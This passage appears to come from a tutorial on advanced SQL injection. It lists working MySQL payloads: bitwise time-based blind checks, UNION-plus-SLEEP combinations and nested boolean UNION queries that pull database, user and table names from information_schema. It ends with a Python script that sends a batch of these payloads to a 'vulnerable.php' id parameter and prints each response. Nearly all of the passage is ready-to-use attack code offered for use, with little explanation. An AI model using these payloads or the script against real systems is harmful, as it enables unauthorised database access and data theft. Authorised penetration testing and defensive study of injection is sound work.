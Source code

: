 Use bitwise operations for more obfuscation and complexity:
```sql
' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) --
```

### Combining Techniques

Combine multiple advanced techniques for robust and harder-to-detect payloads.

##### Example: Union with Time-Based Injection

Create a payload that uses both union and time-based injections:
```sql
' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 --
```

##### Example: Nested Union and Boolean Injection

Combine nested boolean conditions with union-based data extraction:
```sql
' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 --
```

### Automating with Custom Scripts

Automate these advanced techniques using custom scripts to efficiently test and extract data.

#### Example: Python Script for Advanced Union Injection

```python
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # Advanced Union-Based Injections
    "' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) -- ",
    "' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() -- ",
    "' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() -- ",
    "' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() -- ",
    # Advanced Boolean-Based Injections
    "' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) -- ",
    "' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) -- ",
    "' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) -- ",
    "' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) -- ",
    # Combined Techniques
    "' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 -- ",
    "' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```
